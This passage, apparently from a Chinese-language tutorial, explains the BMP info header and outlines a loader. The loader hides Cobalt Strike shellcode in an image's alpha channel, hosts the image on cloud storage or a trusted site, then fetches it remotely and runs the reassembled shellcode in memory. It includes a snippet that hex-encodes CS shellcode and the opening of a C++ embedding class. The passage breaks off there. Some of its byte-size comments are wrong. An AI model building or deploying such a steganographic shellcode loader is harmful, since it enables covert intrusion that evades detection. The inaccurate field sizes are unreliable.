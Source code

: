 同样，Windows为位图信息头定义了如下结构体：

```
typedef struct tagBITMAPINFOHEADER
 {
DWORD biSize;  // 说明该结构一共需要的字节数 2字节
LONG biWidth;  // 说明图片的宽度，以像素为单位 4字节
LONG biHeight; // 说明图片的高度，以像素为单位 4字节
WORD biPlanes; //颜色板，总是设为1  2个字节
WORD biBitCount;  //说明每个比特占多少bit位，可以通过这个字段知道图片类型  2个字节
DWORD biCompression;  // 说明使用的压缩算法 2个字节 （BMP无压缩算法）
DWORD biSizeImage;  //说明图像大小   2个字节
LONG biXPelsPerMeter;  //水平分辨率 4字节  单位：像素/米
LONG biYPelsPerMeter;  //垂直分辨率4字节
DWORD biClrUsed;  //说明位图使用的颜色索引数 4字节
DWORD biClrImportant; //4字节
} BITMAPINFOHEADER; // 一共40个字节
```

5.biSze是指这个struct BITMAPINDOHEADER bmih占40个字节大小。

6.biWidth,和biHeight指图片的宽和高

6.黑色箭头bitBitCount代表：BGRA 蓝、绿、红、alpha，来存储一个像素，蓝占多少，绿占多少，红占多少，alpha是透明度，这个字节的数值表示的是该像素点的透明度：数值为0时，该像素点完全透明，利用这种特性来藏数据了，而不影响原图片的正常显示。

7.这两个结构体结束后：剩下的部分就是像素的BGRA了。

------

### 0x03 程序实现

现在这个程序的思路就是：

1.用C/C++代码读取图片文件里面的这两个结构体。

2.读取图片到内存中。获取bfOffBIts，再获取alpha通道（+4）。

3.把数据拆分，插入到alpha通道，保存文件上传到阿里云对象存储OSS或可信任网站上。

4.远程读取被修改图片的alpha通道，拼接组合shellcode申请内存加载。

#### 一、图片生成

为了方便隐藏写入，将CS生成的shellcode转换成hex编码

```
code = "\xfc\xe8\x89\x00\x00\x00\x60\x56\x78........."
print(code.encode('hex'))
```

核心代码参考 https://github.com/loyalty-fox/idshwk7

```
//dwBmpSize.cpp
#include "dwBmpSize.h"
 
CBMPHide::CBMPHide()
{
	sBmpFileName = "";
	pBuf = 0;
	dwBmpSize = 0;
}
 
CBMPHide::~CBMPHide()
{
 
}
 
bool CBMPHide::setBmpFileName(char* szFileName)
{
```